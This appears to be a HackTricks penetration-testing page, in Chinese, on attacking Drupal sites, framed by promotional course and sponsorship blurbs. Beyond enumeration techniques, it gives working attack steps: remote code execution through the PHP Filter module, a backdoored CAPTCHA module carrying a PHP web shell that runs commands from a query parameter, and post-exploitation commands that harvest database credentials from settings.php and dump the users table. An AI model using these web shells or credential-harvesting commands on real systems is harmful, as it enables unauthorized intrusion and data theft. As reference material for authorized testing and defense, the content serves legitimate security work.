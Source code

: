 # Drupal

<details>

<summary><strong>从零到英雄学习AWS黑客攻击</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 发现

* 检查 **meta**标签
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **节点**：Drupal **使用节点索引其内容**。节点可以**包含任何内容**，例如博客帖子、投票、文章等。页面URI通常是 `/node/<nodeid>` 的形式。
```bash
curl drupal-site.com/node/1
```
## 枚举

Drupal 默认支持**三种类型的用户**：

1. **`管理员`**：该用户对 Drupal 网站拥有完全控制权。
2. **`认证用户`**：这些用户可以登录网站，并根据他们的权限执行添加和编辑文章等操作。
3. **`匿名用户`**：所有网站访问者默认被视为匿名用户。默认情况下，这些用户只被允许阅读帖子。

### 版本

* 检查 `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Drupal 的新安装默认会阻止访问 `CHANGELOG.txt` 和 `README.txt` 文件。
{% endhint %}

### 用户名枚举

#### 注册

在 _/user/register_ 尝试创建一个用户名，如果名称已被占用，将会收到通知：

![](<../../.gitbook/assets/image (254).png>)

#### 请求新密码

如果为现有用户名请求新密码：

![](<../../.gitbook/assets/image (255).png>)

如果为不存在的用户名请求新密码：

![](<../../.gitbook/assets/image (256).png>)

### 获取用户数量

访问 _/user/\<number>_ 可以看到现有用户的数量，在这个例子中是2，因为 _/users/3_ 返回了未找到错误：

![](<../../.gitbook/assets/image (257).png>)

![](<../../.gitbook/assets/image (227) (1) (1).png>)

### 隐藏页面

**对 `/node/$` 进行模糊测试，其中 `$` 是一个数字**（例如从1到500）。\
你可能会发现 **隐藏页面**（测试，开发），这些页面没有被搜索引擎引用。

#### 已安装模块信息
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### 自动化
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### 使用 PHP Filter 模块

{% hint style="warning" %}
在Drupal的旧版本中 **(8版本之前)**，可以作为管理员登录并**启用 `PHP filter` 模块**，它允许“评估嵌入的PHP代码/片段。”
{% endhint %}

你需要**安装 PHP 插件**（通过访问 _/modules/php_ 检查，如果返回 **403** 则表示**存在**，如果**未找到**，则表示**PHP 插件未安装**）

转到 _Modules_ -> （**勾选**）_PHP Filter_ -> _Save configuration_

![](<../../.gitbook/assets/image (247) (1).png>)

然后点击 _Add content_ -> 选择 _Basic Page_ 或 _Article_ -> 在正文中写入 _php shellcode_ -> 在 _Text format_ 中选择 _PHP code_ -> 选择 _Preview_

![](<../../.gitbook/assets/image (253) (1).png>)

最后只需访问新创建的节点：
```bash
curl http://drupal-site.local/node/3
```
### 安装 PHP Filter 模块

从 **8 版本开始，**[**PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **模块默认不会安装**。要使用这个功能，我们需要**自己安装模块**。

1. 从 Drupal 网站下载模块的最新版本。
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. 下载完成后，转到 **`管理`** > **`报告`** > **`可用更新`**。
3. 点击 **`浏览`**，选择我们下载到的目录中的文件，然后点击 **`安装`**。
4. 安装模块后，我们可以点击 **`内容`** 并**创建一个新的基本页面**，类似于我们在 Drupal 7 示例中所做的。同样，确保从 **`文本格式`** 下拉菜单中**选择 `PHP 代码`**。

### 后门模块

可以通过**向现有模块添加 shell** 来创建后门模块。可以在 drupal.org 网站上找到模块。我们选择一个像 [CAPTCHA](https://www.drupal.org/project/captcha) 这样的模块。向下滚动并复制 tar.gz [存档](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz)的链接。

* 下载存档并提取其内容。
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* 创建一个包含以下内容的 **PHP web shell**：
```php
<?php
system($_GET["cmd"]);
?>
```
* 接下来，我们需要创建一个 **`.htaccess`** 文件以便我们能够访问文件夹。这是必要的，因为Drupal拒绝直接访问 **`/modules`** 文件夹。
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* 上述配置将在我们请求 /modules 中的文件时，为 / 文件夹应用规则。复制这两个文件到 captcha 文件夹并创建一个存档。
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* 假设我们拥有网站的**管理员访问权限**，点击侧边栏的 **`管理`** 然后 **`扩展`**。接下来，点击 **`+ 安装新模块`** 按钮，我们将被带到安装页面，例如 `http://drupal-site.local/admin/modules/install` 浏览到带后门的Captcha存档并点击 **`安装`**。
* 安装成功后，浏览到 **`/modules/captcha/shell.php`** 来执行命令。

## 后期利用

### 读取 settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### 从数据库中导出用户
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## 参考资料

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客技术！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
